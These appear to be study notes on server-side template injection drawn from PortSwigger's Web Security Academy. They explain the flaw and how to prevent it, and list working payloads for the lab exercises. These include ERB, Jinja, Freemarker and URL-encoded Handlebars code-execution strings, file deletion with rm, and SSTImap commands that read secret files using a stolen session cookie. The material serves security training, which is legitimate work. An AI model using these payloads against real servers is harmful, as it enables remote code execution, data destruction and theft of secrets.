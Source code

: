 [

Server-side template injection | Web Security Academy

This technique was first documented by PortSwigger Research in the conference presentation Server-Side Template Injection: RCE for the Modern Web App. In ...

![](https://portswigger.net/content/images/logos/favicon.ico)https://portswigger.net/web-security/server-side-template-injection

![](https://portswigger.net/content/images/logos/academy-twittercard.png)](https://portswigger.net/web-security/server-side-template-injection)

- **What is server-side template injection?**
    
    Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
    
    Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.
    
- **What is the impact of server-side template injection?**
    
    Server-side template injection vulnerabilities arise when user input is concatenated into templates rather than being passed in as data.
    
    Static templates that simply provide placeholders into which dynamic content is rendered are generally not vulnerable to server-side template injection. The classic example is an email that greets each user by their name, such as the following extract from a Twig template:
    
    ```
    $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
    ```
    
    This is not vulnerable to server-side template injection because the user's first name is merely passed into the template as data.
    
    However, as templates are simply strings, web developers sometimes directly concatenate user input into templates prior to rendering. Let's take a similar example to the one above, but this time, users are able to customize parts of the email before it is sent. For example, they might be able to choose the name that is used:
    
    ```
    $output = $twig->render("Dear " . $_GET['name']);
    ```
    
    In this example, instead of a static value being passed into the template, part of the template itself is being dynamically generated using the `GET` parameter `name`. As template syntax is evaluated server-side, this potentially allows an attacker to place a server-side template injection payload inside the `name` parameter as follows:
    
    ```
    http://vulnerable-website.com/?name={{bad-stuff-here}}
    ```
    
    Vulnerabilities like this are sometimes caused by accident due to poor template design by people unfamiliar with the security implications. Like in the example above, you may see different components, some of which contain user input, concatenated and embedded into a template. In some ways, this is similar to [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities occurring in poorly written prepared statements.
    
    However, sometimes this behavior is actually implemented intentionally. For example, some websites deliberately allow certain privileged users, such as content editors, to edit or submit custom templates by design. This clearly poses a huge security risk if an attacker is able to compromise an account with such privileges.
    
- W**ork flow**
    
    **Detect**
    
    try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`
    
    **Identify**
    
    **Exploit**
    
    [https://portswigger.net/web-security/server-side-template-injection/exploiting](https://portswigger.net/web-security/server-side-template-injection/exploiting)
    
- **How to prevent server-side template injection vulnerabilities**
    
    The best way to prevent server-side template injection is to not allow any users to modify or submit new templates. However, this is sometimes unavoidable due to business requirements.
    
    One of the simplest ways to avoid introducing server-side template injection vulnerabilities is to always use a "logic-less" template engine, such as Mustache, unless absolutely necessary. Separating the logic from presentation as much as possible can greatly reduce your exposure to the most dangerous template-based attacks.
    
    Another measure is to only execute users' code in a sandboxed environment where potentially dangerous modules and functions have been removed altogether. Unfortunately, sandboxing untrusted code is inherently difficult and prone to bypasses.
    
    Finally, another complementary approach is to accept that arbitrary code execution is all but inevitable and apply your own sandboxing by deploying your template environment in a locked-down Docker container, for example
    
- **SSTI Identified Using** **`SSTImap`**
    
    > SSTI can be identified using the tool `SSTImap`. The limitations of this tool is that the template expression `{{7*7}}` results are sometimes only evaluated by another `GET request` or calling another function in the application, as the output is not directly reflected or echoed into the response where the template expression was posted.
    
    ```
    python /opt/SSTImap/sstimap.py --engine erb -u https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock --os-cmd "cat /home/carlos/secret"
    ```
    
    > POST request with the data `param` to test and send payload using `SSTImap` tool.
    
    ```
    python /opt/SSTImap/sstimap.py -u https://TARGET.net/product/template?productId=1 --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'
    ```
    
    [![](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png)
    
- **SSTI payloads to manually identify vulnerability. →** [Security-Hub/ssti.txt at main · M8SZT8/Security-Hub (github.com)](https://github.com/M8SZT8/Security-Hub/blob/main/Fuzzing%20Lists/ssti.txt)
    
    ```
    ${{<%[%'"}}%\.,}}{{7*7}} {{fuzzer}}${fuzzer}${{fuzzer}}${7*7}<%= 7*7 %>${{7*7}}#{7*7}${foobar}{% debug %}
    ```
    
- **Exploit**
    
    - **Construct a payload to delete Carlos's file**
        
        `<%= system("rm /home/carlos/morale.txt") %>`
        
    - [**Basic server-side template injection (code context)**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)
        
        ```
        blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
        ```
        
    - [**Server-side template injection using documentation**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)
        
        ```
        <\#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
        ```
        
    - [**Server-side template injection in an unknown language with a documented exploit**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)
        
        ```
        https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
        ```
        
    - [**Server-side template injection with information disclosure via user-supplied objects**](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)
        
        ```
        {% debug %}{{settings.SECRET_KEY}}
        ```